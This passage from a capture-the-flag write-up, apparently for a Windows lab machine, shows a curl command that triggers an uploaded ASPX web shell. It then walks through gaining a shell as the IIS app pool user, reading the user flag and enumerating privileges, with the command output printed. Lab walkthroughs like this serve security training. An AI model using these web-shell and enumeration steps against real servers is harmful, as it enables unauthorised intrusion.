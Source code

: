 * Finally, we can curl the shell in the browser to execute.

```
curl http://10.10.17.123:49663/nt4wrksv/dis0ver.aspx
```

### Win! we got initial access.

Let's find that user flag.

First using whoami, we see that we are iis apppool\defaultapppool

I navigated to root / and then checked the users.

```
 Volume in drive C has no label.
 Volume Serial Number is AC3C-5CB5

 Directory of c:\Users

07/25/2020  02:03 PM    <DIR>          .
07/25/2020  02:03 PM    <DIR>          ..
07/25/2020  08:05 AM    <DIR>          .NET v4.5
07/25/2020  08:05 AM    <DIR>          .NET v4.5 Classic
07/25/2020  10:30 AM    <DIR>          Administrator
07/25/2020  02:03 PM    <DIR>          Bob
07/25/2020  07:58 AM    <DIR>          Public
               0 File(s)              0 bytes
               7 Dir(s)  20,274,839,552 bytes free
```

Checking Bob's desktop we see the (user.txt). Let's try to read it.

```
type user.txt
```

Awesome, we have access to the user flag without any escalation.

Let's check our privileges.

```
c:\Users\Bob\Desktop>whoami /all & REM could also do /priv for just the privileges
whoami /all

USER INFORMATION
----------------

User Name                  SID                                                          
========================== =============================================================
iis apppool\defaultapppool S-1-5-82-3006700770-424185619-1745488364-794895919-4004696415


GROUP INFORMATION
-----------------

Group Name                           Type             SID          Attributes                                        
==================================== ================ ============ ==================================================
Mandatory Label\High Mandatory Level Label            S-1-16-12288                                                   
Everyone                             Well-known group S-1-1-0      Mandatory group, Enabled by default, Enabled group
BUILTIN\Users                        Alias            S-1-5-32-545 Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\SERVICE                 Well-known group S-1-5-6      Mandatory group, Enabled by default, Enabled group
```